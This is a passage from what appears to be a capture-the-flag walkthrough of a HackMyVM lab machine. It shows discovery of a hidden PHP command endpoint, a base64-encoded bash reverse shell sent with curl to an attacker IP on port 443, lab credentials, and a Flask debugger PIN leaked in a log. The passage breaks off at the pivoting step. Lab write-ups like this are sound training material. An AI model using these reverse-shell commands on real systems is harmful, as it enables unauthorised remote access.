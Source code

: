 So from this scan, we can see the subdomain `hacker.maze-sec.hmv`, so I added both `maze-sec.hmv` and `hacker.maze-sec.hmv` to the hosts file.

Both of these sites contain basically nothing at first glance. And I was stuck here for most of the time. So I decided to check the source code of the websites.

In `hacker.maze-sec.hmv` there is a hacker.js JavaScript file that can be found in the source code. There is this snippet in the code:
```javascript
let path = ['su', 'per', 'co', 'ool'].join('') + '.php';
let param = ['cm', 'd='].join('');
```

So through this we can send a reverse shell payload. Now for whatever reason, you can't send a payload to practically any port except port 443. So any reverse shell payload to port 443 works. I used this one:

1. base64 encode `sh -i >& /dev/tcp/192.168.0.111/443 0>&1` (replace the IP with your IP)

```bash
curl https://hacker.maze-sec.hmv/supercoool.php?cmd=echo+c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4wLjExMS80NDMgMD4mMQo=+|base64+-d+|+bash
```

This will gain you a shell on your listener, from where you can read the flag in `/home/welcome`.

Read the .viminfo file of the welcome user to gain the password to the user.

Credentials: `welcome:welcome123`

## Pivoting

Running `sudo -l` on the user welcome gives us this:
```
Matching Defaults entries for welcome on Console:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Console:
    (qaq) PASSWD: /bin/cat /opt/flask-app/logs/flask.log
```

And on running the command `sudo -u qaq /bin/cat /opt/flask-app/logs/flask.log` we get this output (or something similar lol):
```
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.0.110:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 258-005-805
127.0.0.1 - - [06/Aug/2025 11:16:23] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [06/Aug/2025 11:16:40] "GET /console HTTP/1.1" 200 -
127.0.0.1 - - [06/Aug/2025 11:17:46] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [06/Aug/2025 11:17:46] "GET /favicon.ico HTTP/1.1" 404 -
```
